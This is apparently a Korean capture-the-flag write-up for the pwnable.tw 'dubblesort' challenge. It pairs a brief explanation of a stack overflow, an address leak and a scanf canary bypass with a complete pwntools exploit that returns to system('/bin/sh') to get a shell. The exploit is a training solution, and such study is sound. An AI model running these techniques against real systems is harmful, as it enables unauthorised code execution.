 ```yaml
---
title: "[pwnable.tw]dubblesort"
date: 2020-2-20
ctf: Pwnable.tw
layout: post
---
```


문제는 쉬웠는데 remote offset이랑 local offset이랑 다른거 생각 못해서 너무 삽질했다. 이거때문에 디버깅만 몇 십번 한거같다 ㅎ;

취약점은 원하는 만큼 입력이 가능하기 때문에 터진다. name을 입력받을 때 stack에 있는 값을 leak할 수 있고 Canary를 scanf에서 +,-로 bypass해주고 `system("/bin/sh")` 로 만들어주면 된다.

> exploit.py

```python
from pwn import *

# context.log_level = 'error'
e = ELF('./dubblesort')
# p = process('./dubblesort',aslr=True)
p = remote('chall.pwnable.tw',10101)
libc = ELF('./libc_32.so.6')
# libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

sa(':','A'*25)
p.recvuntil('A'*25)
leak = u32('\x00'+p.recv(3))
log.info('leak : {}'.format(hex(leak)))
libc_base = leak - 0x1b0000 # remote
#libc_base = leak - 0x1b2000 # local
log.info('libc_base : {}'.format(hex(libc_base)))

sla(':','35')

for i in range(24):
 	sla(':',str(0xaaaaaaaa))

sla(':','+') # Canary

for i in range(8):
 	sla(':',str(libc_base + libc.symbols['system']))

sla(':',str(libc_base + libc.symbols['system']))

sla(':',str(libc_base + libc.search('/bin/sh\x00').next()))

p.interactive()
```

